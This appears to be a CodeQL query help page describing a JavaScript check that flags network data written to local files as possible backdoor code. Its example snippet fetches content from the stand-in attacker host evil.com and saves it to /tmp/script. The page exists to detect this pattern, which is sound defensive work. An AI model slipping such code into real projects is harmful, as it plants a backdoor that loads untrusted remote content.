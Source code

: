 # Network data written to file

```
ID: js/http-to-file-access
Kind: path-problem
Severity: warning
Precision: medium
Tags: security external/cwe/cwe-912 external/cwe/cwe-434

```
[Click to see the query in the CodeQL repository](https://github.com/github/codeql/tree/main/javascript/ql/src/Security/CWE-912/HttpToFileAccess.ql)

Storing user-controlled data on the local file system without further validation allows arbitrary file upload, and may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.


## Recommendation
Examine the highlighted code closely to ensure that it is behaving as intended.


## Example
The following example shows backdoor code that downloads data from the URL `https://evil.com/script`, and stores it in the local file `/tmp/script`.


```javascript
var https = require("https");
var fs = require("fs");

https.get('https://evil.com/script', res => {
  res.on("data", d => {
    fs.writeFileSync("/tmp/script", d)
  })
});

```
Other parts of the program might then assume that since `/tmp/script` is a local file its contents can be trusted, while in fact they are obtained from an untrusted remote source.


## References
* OWASP: [Trojan Horse](https://www.owasp.org/index.php/Trojan_Horse).
* OWASP: [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload).
* Common Weakness Enumeration: [CWE-912](https://cwe.mitre.org/data/definitions/912.html).
* Common Weakness Enumeration: [CWE-434](https://cwe.mitre.org/data/definitions/434.html).